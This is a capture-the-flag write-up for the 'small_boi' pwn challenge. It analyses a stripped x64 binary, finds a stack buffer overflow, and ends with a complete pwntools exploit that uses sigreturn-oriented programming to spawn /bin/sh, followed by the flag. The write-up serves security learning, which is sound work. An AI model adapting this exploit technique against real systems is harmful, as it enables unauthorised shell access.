# SMALL BOI (100)

We're provided with a 64bit stripped binary.

We execute it and it's just asking for input without doing anything. 

Nothing to note so let's open it in IDA and analyse the disassembly.



No PLT entries registred so no linking we can assume that this binary is implemented in pure assembly no library function calls just chain of instructions in assembly.

It calls the function at offset `0x40018C` then it make an exit syscall.

Let's analyse that function:



it makes a syscall with value of `0` in `EAX` register so after referencing to the syscall table for x64 arch we find that it's a read syscall.




So it reads `0x200` bytes from `STDIN` and puts it in a buffer locacted in the `stack`.

It seems to control the number of bytes but it still may be a Buffer Overflow vulnerability here if the size allocated for the buffer is less than 0x200 let's try that.


```bash
[13:06:21]kerro@BOX:~/csaw/pwn/small_boi$ python -c 'print "A"*0x200' | ./small_boi 
Segmentation fault
[13:06:23]kerro@BOX:~/csaw/pwn/small_boi$ 
```

and Yes! `Segmentation fault` let's see which register caused that fault exactly:



We control the Instructions Pointer (RIP).

My first thoughts was to control `EAX`,`RDI`,`RSI` AND `RDX` to make a `execve("/bin/sh",0,0)` but after seeing the gadgets provided in the binary i realised that it's impossible(for me) to do that and we don't have any library linked so no `/bin/sh` string .



But look closely, at line 20 thats a syscall with code `0xf` different from `exit` and `read` syscalls. Referencing again to x64 syscall table we know that it's a [Sigreturn](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming) syscall.

After googling the technique we know that it builds a new frame in the stack in which allocated and initialized the new frame context (new registers values and new stack...)

First let's determine  the offset to control the RIP:



It's 40.

Now let's try performing this by making the program jump to that syscall and filling the stack with junk values and see if we control all the registers or not.






  And yes we control everything. Now the big problem is where can we find `/bin/sh` string to perform the desired call `execve("/bin/sh",0,0)` ?
  
  Well that took me a while thinking about a way to get that string or a way to write it in a writable area in the binary and return to it.
  
  But after examining the strings of the binary I figured out that it's here already!
  
  
  
  So all we have to do is to determine its offset in the `.rodata` section (ReadOnly data) .
  
  
  
  Its offset is `0x4001ca` .
  So now the attack scenario is simple: perform a buffer overflow attack to control the instructions pointer in order to make a sigreturn syscall then fill the rest of the memory with the context of the new frame we don't even have to know the location of the new frame just fill enough space.
  
  Pwntools will help us to construct the new frame.
 
  New frame context content:
  
  -)RAX=59 (the number of the execve syscall)
  
  -)RDI=address_of_`/bin/sh`_string
  
  -)RSI=0 (second argument of execve)
  
  -)RDX=0 (third argument of execve)
  
  -)RSP=random_logic_adress (with RW permissions) we can use `vmmap` in gdb-peda to get such adress.
  
  -)RIP=syscall_gadget(provided at 35th line in gadgets)
   
  Here's the final exploit:
  
  ```python
  from pwn import *
context.clear(arch="amd64")
paylaod = ""
paylaod += "A"*40
paylaod += p64(0x000000000040018a)
paylaod += p64(0xf)
paylaod += p64(0x0000000000400185)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 59
frame.rdi = 0x4001ca
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0x0000000000601000
frame.rip = 0x0000000000400185
paylaod += str(frame)*10
p = process("./small_boi")
p.sendline(paylaod)
p.interactive()
```
And here we are!



FLAG: `flag{sigrop_pop_pop_pop}`
